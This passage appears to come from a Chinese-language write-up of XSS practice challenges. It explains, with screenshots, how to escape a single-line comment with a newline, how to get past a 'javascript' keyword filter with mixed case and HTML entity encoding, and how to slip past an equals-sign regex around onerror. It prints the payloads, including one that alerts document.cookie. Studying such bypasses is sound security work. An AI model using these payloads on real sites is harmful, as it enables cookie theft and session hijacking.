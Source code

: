 输出在注释中
------

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ebbbcb1a1a6968e847340b6c21f3fd28d650f659.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ebbbcb1a1a6968e847340b6c21f3fd28d650f659.png)  
源码中也提示了换行符。`//`是单行注释，所以换行就不生效了。  
`?xss=123%0aa lert('xss');`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d95a5e60191bfd4722ef9e0afc2a1c4913a43bdd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d95a5e60191bfd4722ef9e0afc2a1c4913a43bdd.png)

J avas cript被过滤
---------------

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-191cf1ac28dc895f249faa5e0bf5413f6069f025.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-191cf1ac28dc895f249faa5e0bf5413f6069f025.png)  
输出到了a标签的href属性。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d3337eae1f779cd1a9927df8ff86a25b122b75a6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d3337eae1f779cd1a9927df8ff86a25b122b75a6.png)  
首先一眼看去就是可以大小写绕过  
`?xss=J avas cript:a lert(document.cookie);`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-595416810c31b4a0f7da0f07b33fafe65525a90b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-595416810c31b4a0f7da0f07b33fafe65525a90b.png)  
还可以利用实体编码绕过  
`?xss=j%26%2397;vas cript:a lert(%26%2339;xss%26%2339;);`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-851a3561feaaa3b74c67e7f2c67132316b59ea24.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-851a3561feaaa3b74c67e7f2c67132316b59ea24.png)  
需要点击才能触发，不是0click不完美。

等号问题
----

也是输出在img的src中。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01d733ca19825297fb249b9e0a9d375a1ae4bcd4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01d733ca19825297fb249b9e0a9d375a1ae4bcd4.png)  
用上面的payload打不行  
`?xss=xss" o nerror="a lert('1');`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ce57d4c9a2422765012321415dd064818ee7fae2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ce57d4c9a2422765012321415dd064818ee7fae2.png)  
看一下源码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-38f712d8ca6e50af060ff7b821a84a626e354de9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-38f712d8ca6e50af060ff7b821a84a626e354de9.png)  
有一个正则匹配，等号两边随意加个空格就饶过去了。  
`?xss=xss" o nerror ="a lert('1');`
